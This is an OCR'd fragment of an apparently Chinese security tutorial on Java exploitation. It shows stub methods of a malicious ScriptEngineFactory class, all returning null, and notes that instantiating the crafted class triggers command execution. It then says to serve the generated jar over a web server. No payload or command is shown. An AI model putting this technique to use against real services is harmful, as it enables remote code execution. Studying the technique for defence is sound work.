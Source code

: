 ```plain

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

根据上面 mysql 的例子可以猜测到，在 ScriptEngineFactory 类中应该有对我们构造的恶意类实例化的过程，在实例化时会自动调用构造函数从而导致命令执行  
在生成的 jar 文件目录下开启 web 服务
